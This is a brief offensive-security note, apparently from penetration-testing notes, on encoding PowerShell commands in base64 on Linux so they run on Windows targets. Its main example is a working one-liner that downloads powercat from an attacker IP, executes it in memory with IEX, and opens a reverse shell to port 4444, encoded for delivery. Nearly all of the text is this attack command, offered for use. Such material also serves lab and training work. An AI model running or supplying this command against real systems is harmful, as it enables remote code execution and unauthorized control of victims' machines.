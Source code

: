 If you are attacking Windows, here is how to base64 encode in linux so that Windows can use it.

```console
echo -n "a powershell command" | iconv -f UTF-8 -t UTF-16LE | base64 -w 0
```
Here is an example that downloads powercat and then uses it to start a reverseshell
```console
echo -n "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1'); powercat -c 192.168.119.2 -p 4444 -e powershell" | iconv -f UTF-8 -t UTF-16LE | base64 -w 0
```
